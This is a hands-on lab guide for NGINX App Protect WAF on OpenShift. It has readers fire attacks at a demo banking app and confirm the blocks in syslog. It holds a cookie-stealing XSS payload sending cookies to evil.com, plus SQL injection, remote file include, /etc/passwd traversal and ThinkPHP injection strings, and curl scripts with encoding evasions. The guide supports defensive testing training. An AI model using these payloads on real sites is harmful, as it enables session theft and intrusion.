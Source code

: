 == Access the Application and test the NGINX App Protect WAF to see how it works in action

Now that NGINX App Protect WAF is enabled, let's test its ability to
protect against Layer 7 attacks. Follow these steps:

Open the Arcadia Financial webpage in your browser.

[source,sh,role=execute]
----
echo "http://$nginx_ingress"
----

. In the browser, open the NGINX Ingress Controller URL to access the Arcadia
app (replace with the nginx-ingress EXTERNAL-IP): `http://EXTERNAL-IP/`
. Click on `Login` and use the credentials `matt:ilovef5`
. You should see all the apps running (main, back, app2, and app3)
. Execute the same XSS attack we did in Module 1 by appending
`?a=<script>` to the end of the application URL. Observe that the attack
is now blocked and the user is provided with a support ID.

[source,texinfo,subs="attributes"]
----
<html>
  <head><title>Request Rejected</title></head>
  <body>
    The requested URL was rejected. Please consult with your administrator.<br><br>
    Your support ID is: 2246109708976899297<br><br>
    <a href='javascript:history.back();'>[Go Back]</a>
  </body>
</html>
----

[NOTE]
.Note
====
Did you notice the blocking page is similar to F5 ASM and Adv. WAF?
====

image:image18.png[image]

. Execute the second attack by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, and observe the results.

image:image19.png[image]


Congratulations on securing your application!


=== Security Logging

To verify that F5 Application Protection WAF is logging security events,
follow these steps:

Events are logged in the local syslog pod.

In the terminal window, copy the below text and press enter.

[source,bash]
----
oc get pod -o wide
----

Example:

[source,bash]
----
[lab-user@bastion app-protect-waf]$ oc get pod -o wide
NAME                       READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
app2-6bd5b4fbd7-fdcp2      1/1     Running   0          70m   10.128.2.51   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
app3-5699b95596-2fvgv      1/1     Running   0          70m   10.128.2.52   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
backend-79c6bcf85c-9zdhl   1/1     Running   0          70m   10.129.2.41   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
main-584fc64db4-kz5c8      1/1     Running   0          70m   10.131.0.22   ip-10-0-223-88.us-east-2.compute.internal    <none>           <none>
syslog-bb47bd798-mhh64     1/1     Running   0          25m   10.129.2.46   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
----


Next, let's create an attack and then examine the logs.


We'll use this bash script to create the attack and then display the log.

[source,sh,role=execute]
----
cat << 'EOF' > check_waf.sh
#!/bin/bash

echo "Sending a malicious request to trigger App Protect..."
response=$(curl -sk "http://$nginx_ingress?item='><script>document.location='http://evil.com/steal'+document.cookie</script>")

echo "Full WAF response:"
echo "$response"

support_id=$(echo "$response" | grep -oP 'support ID is: \K[0-9]+')
echo "Captured Support ID: $support_id"

syslog_pod=$(oc get pods --no-headers | grep '^syslog-' | cut -d' ' -f1)
echo "Querying syslog pod $syslog_pod for WAF log entry..."

oc exec -it pod/$syslog_pod -- cat /var/log/messages | \
  grep "$support_id" | \
  sed -n 's/.*json_log="\({.*}\)".*/\1/p' | \
  sed 's/""/"/g' | jq .
EOF
----

Make the script executable and then run it.

[source,sh,role=execute]
----
chmod +x check_waf.sh && ./check_waf.sh
----

After running the `check_waf.sh` script, look at the parsed JSON and verify the following:

- `"id"`: This should match the support ID you received in the curl response.
- `"requestStatus": "blocked"`: Confirms the request was blocked by App Protect.
- `"attackType"`: Look for entries like `"Cross Site Scripting (XSS)"`, showing the attack was correctly classified.
- `"violation.name"`: Confirm detection of signatures such as `"VIOL_ATTACK_SIGNATURE"` or `"VIOL_PARAMETER_VALUE_METACHAR"`.
- `"signature.name"`: Example: `"XSS script tag (Parameter)"` shows the specific rule triggered.
- `"enforcementState.isBlocked": true`: Confirms blocking action was enforced.
- `"observedEntity.value"`: This may show a base64-encoded version of the payload that triggered the violation.


Congratulations on completing the Lab! You have learned how to deploy
the NGINX App Protect WAF in OpenShift and how to use the NGINX App
Protect WAF to protect your applications from attacks.

## Optional Attacks

*Here are some optional attacks you can try*

== Optional Attack Payloads to Trigger App Protect

Use these by appending them to the application URL (e.g., `http://$nginx_ingress/`):

* *SQL Injection*  
  `?hfsagrs=-1+UNION+SELECT+user,password+FROM+users--`

* *Remote File Include (RFI)*  
  `?hfsagrs=php://filter/resource=http://example.com/shell.txt`

* *Command Execution*  
  `?hfsagrs=/proc/self/environ`

* *HTTP Parser Attack*  
  `?XDEBUG_SESSION_START=phpstorm`

* *Path Traversal (Predictable Resource Location)*  
  `/lua/login.lua?referer=google.com/&hfsagrs=../../../../../../../../etc/passwd`

* *Cross-Site Scripting (XSS)*  
  `/lua/login.lua?referer=google.com/&hfsagrs="onmouseover=alert('XSS')"`

* *Information Leakage Probe*  
  `/lua/login.lua?referer=google.com/&hfsagrs=efw`

* *Forced Browsing (Parser Attack)*  
  `/dana-na/auth/url_default/welcome.cgi`

* *ThinkPHP Code Injection*  
  `/index.php?s=/Index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP`

* *Header-based XSS (via Cookie)*  
  Add this header:  
  `Cookie: hfsagrs='"><script>alert("XSS")</script>`


This bash script has a few more.

[NOTE]
.Note
====
Execute the attack by running the following bash script from the
terminal window:
====

[source,bash]
----
#!/bin/bash
echo "------------------------------"
echo "Starting security testing..."
echo "------------------------------"
echo ""

# Get the external IP address of the NGINX Ingress Controller
EXTERNAL_IP=$(oc get service my-nginx-ingress-controller-nginx-ingress -n nginx-ingress | awk 'NR==2{print $4}')

echo "---------------------------------------------------------------------"
echo "Multiple decoding"
echo "Sending: curl -k 'http://$EXTERNAL_IP/three_decodin%2525252567.html'"
echo "---------------------------------------------------------------------"

# Send a request with multiple decoding
curl -k "http://$EXTERNAL_IP/three_decodin%2525252567.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Apache Whitespace"
echo "Sending: curl -k 'http://$EXTERNAL_IP/tab_escaped%09.html'"
echo "-----------------------------------------------------------------------------"

# Send a request with Apache whitespace
curl -k "http://$EXTERNAL_IP/tab_escaped%09.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "IIS Backslashes"
echo "Sending: curl -k 'http://$EXTERNAL_IP/regular%5cescaped_back.html'"
echo "-----------------------------------------------------------------------------"

# Send a request with IIS backslashes
curl -k "http://$EXTERNAL_IP/regular%5cescaped_back.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Carriage Return Escaping"
echo "Sending: curl -k 'http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2'"
echo "-----------------------------------------------------------------------------"

# Send a request with carriage return escaping
curl -k "http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Cross-site scripting"
echo "Sending: curl -k 'http://$EXTERNAL_IP/%25%25252541PPDATA%25'"
echo "-----------------------------------------------------------------------------"

# Send a request with cross-site scripting payload
curl -k "http://$EXTERNAL_IP/%25%25252541PPDATA%25"
----